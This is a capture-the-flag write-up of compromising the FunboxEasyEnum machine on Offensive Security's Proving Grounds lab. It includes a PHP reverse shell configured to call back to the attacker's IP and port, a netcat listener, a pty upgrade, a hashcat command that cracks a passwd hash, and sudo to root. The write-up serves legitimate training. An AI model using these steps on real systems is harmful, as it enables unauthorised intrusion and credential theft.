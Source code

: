 ```yaml
---
title: FunboxEasyEnum Writeup
author: mooncakeza
date: 2021-06-01 08:30am
categories: [writeup, offsec, proving grounds]
tags: [writeup, offsec, proving grounds]
math: true
mermaind: true
image: /assets/img/pg/provinggrounds.png
---
```


This is my first <a href="https://www.offensive-security.com/">Offensive Security</a> writeup of a machine on their <a href="https://www.offensive-security.com/labs/">Proving Grounds</a> platform. 
<br>
I signed up for the free labs and managed to do 2 easy machines and get this writeup done before the daily 3 hour timer expired.

## Enumeration

Starting with Rustscan with NMAP. I have cleaned up the output to just show the relevant info.

```bash
└─$ rustscan -a 192.168.245.132 -u 5000 -- -A -sC -sV                                 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/mooncake/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.245.132:22
Open 192.168.245.132:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 07:41 SAST
Scanned at 2021-05-31 07:41:48 SAST for 15s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c:52:32:5b:8b:f6:38:c7:7f:a1:b7:04:85:49:54:f3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3a6aFbaxLEn4AMDXmMVZdNfaQuJQ/AcPHffagHb77o1FmSe+6tlCRHMil9l4qJILffRQHkdbQJtrlBk52V35SHfPp8x89B+Pfv7slkKxXE7fkZBIJuUjHF+YAoSakOtY72d7o6Bet2AwCijSBzZ1bkVC4i/L9euG2Oul5oA2iFlnzwYjrhki6MFNFJvvyoOqcJr1zS+w4W0NO1RexielQsxeUG3khrfVYts5kWFQPr39tk52zRZ/gpAKjR00XN4N5mi/mBjvvgnlVX4DNeyxh5r+E5sdLGzJ0Vk8JzjDW7eK70kv2KmVCFSJNceUjfaIV+K4z9wFoy6qZte7MxhaV
|   256 d6:13:56:06:15:36:24:ad:65:5e:7a:a1:8c:e5:64:f4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoJi5En616tTVEM4UoE0AVaXFn6+Rhike29q/pKZh5nIPQfNr9jqz2II9iZ5NZCPwsjp3QrsmTdzGwqUbjMe0c=
|   256 1b:a9:f3:5a:d0:51:83:18:3a:23:dd:c4:a9:be:59:f0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIO+CVl8CiYP8L+ni0CvmpS7ywOiJU62E3O6L8G2n/Yov
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.17 seconds
```

With only ports 22 and 80 open we fire up Feroxbuster and find the following:

![Desktop View](/assets/img/pg/funboxeasyenum/Feroxbuster mini php.png){: .shadow}

We found http://192.168.145.132/mini.php
<br>
Browsing to it and I see you can upload files.

![Desktop View](/assets/img/pg/funboxeasyenum/Mini Shell PHP.png){: .shadow}

## Foothold

We grab the php-reverse-shell.php on our Kali machine and rename it to shell.php

```bash
-$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php
```

We change the following in the file to match our VPN ip as well as the port we are going to use to listen on for a reverse shell.

```bash
$ip = '192.168.49.245';  // CHANGE THIS
$port = 9998;       // CHANGE THIS
```

In another terminal we start a netcat listener.

```bash
$ nc -lvnp 9998
listening on [any] 9998 ...
```
We then browse back to http://192.168.245.132/mini.php and upload the shell.php

![Desktop View](/assets/img/pg/funboxeasyenum/Shell upload.png){: .shadow}

Once uploaded, it showed up in the list.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell filed uploaded.png){: .shadow}

We now have to change the permissions to execute otherwise the webserver will not be able to execute the php file to run our reverse shell. We changed the permissions to 0777. Drastic I know.

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions.png){: .shadow}

![Desktop View](/assets/img/pg/funboxeasyenum/Shell file permissions change.png){: .shadow}

Once done, browse to http://192.168.245.132/shell.php
<br>
We then received the shell in our netcat listener window.

![Desktop View](/assets/img/pg/funboxeasyenum/Reverse Shell.png){: .shadow}

## local flag

We first have to get an interactive shell, so we use the python method.

```bash
$ python3 -c  'import pty; pty.spawn("/bin/bash")'
www-data@funbox7:/$ 
```

We browse to the www-data home directory and see the following.


![View-Desktop](/assets/img/pg/funboxeasyenum/First flag.png){: .shadow}

The proof.txt file! Easy win without having to enumerate anywhere else on the machine.

Unfortunately we are only www-data and still need to get to root.

## User Escalation

Let us see what users are on the machine.

![Desktop-View](/assets/img/pg/funboxeasyenum/Passwd file.png)

We find a hash for the oracle user.
<br>
Let's identify the type of hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/Identify Hash.png)

<br>
Let us check [hashcat examples](https://www.google.com/search?client=firefox-b-d&q=hashcat+examples) to verify.
<br>
As we can see it's a md5Crypt hash.

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat examples.png)

Let's crack it.

```bash
hashcat -m 500 oracle.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![Desktop-View](/assets/img/pg/funboxeasyenum/hashcat cracked.png)

Hash cracked.
<br>
We try to ssh as the oracle user but this didn't work but doing a su to the user worked.
<br>
We upload LinPEAS.sh to find anything useful.

![Desktop-View](/assets/img/pg/funboxeasyenum/linpeas upload.png)

LinPEAS didn't give much but we did find the following users and only the user karla was interesting as this user seems to have much more access on the system than the others.

![Desktop-View](/assets/img/pg/funboxeasyenum/Users on box.png)

Further enumeration was needed. I remembered seeing phpMyAdmin from Feroxbuster. I searched for phpMyAdmin config file and found the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/phpmyadmin config.png)

Could this password be reused for karla? One way to try.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla SSH.png)

Success.

## Priviledge Escalation

As we saw the user karla was part of the sudoers group, we immediately check what sudo commands can be run.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla sudo.png)

Seems like karla is allowed to run all commands on the system while using sudo.
<br>
We can simply just get a bash shell by running the following.

![Desktop-View](/assets/img/pg/funboxeasyenum/Karla Privsec.png)

## proof flag

Let's go check the root directory for the loot.

![Desktop-View](/assets/img/pg/funboxeasyenum/Second Flag.png)

